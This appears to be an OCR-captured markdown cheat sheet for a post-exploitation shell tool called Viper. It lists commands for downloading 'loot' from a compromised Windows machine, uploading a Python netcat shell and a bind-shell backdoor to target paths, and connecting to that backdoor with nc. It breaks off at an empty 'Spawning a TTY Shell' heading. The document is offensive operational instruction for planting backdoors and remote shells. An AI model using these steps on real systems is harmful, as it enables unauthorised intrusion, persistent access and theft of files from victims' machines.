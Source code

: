 
### start hander

handler

#### Viper download

```
download C:\Users\Administrator\Desktop\Tools\vuln.exe /home/viper-shell/application/loot/vuln.exe

you might have to do this twice
```

for linux you will have to get ViperClient.py to run on linux and then remove the last two libraries. Python will throw up an error when you run download. remove those libraries and you shall be good to download and upload on linux

#### Viper upload

upload python netcat shell from viper

```
do a dir or ls

get foldername

upload /home/viper-shell/application/payloads/netcat.py C:\Users\Administrator\Desktop\Tools\netcat.py


upload /home/viper-shell/application/payloads/netcat.py C:\Users\GHOST\Downloads
```

#### upload putty.exe

```
upload /root/Desktop/Windows/putty.exe c:\putty.exe
```

#### upload twisted python bind shell (backdoor) from viper

```

upload /home/viper-shell/application/payloads/backdoors/twisted-backdoor.py C:\Users\Administrator\Desktop\Tools\twisted-backdoor.py

```

#### Twisted backdoor needs some work

only works with linux right now and can't change dirs yet

```
#listener
#python backdoor.py 1337
#connect to back door with nc -vn <ip addr> port
#ls -la
#cat .connections.log



```
### Spawning a TTY Shell
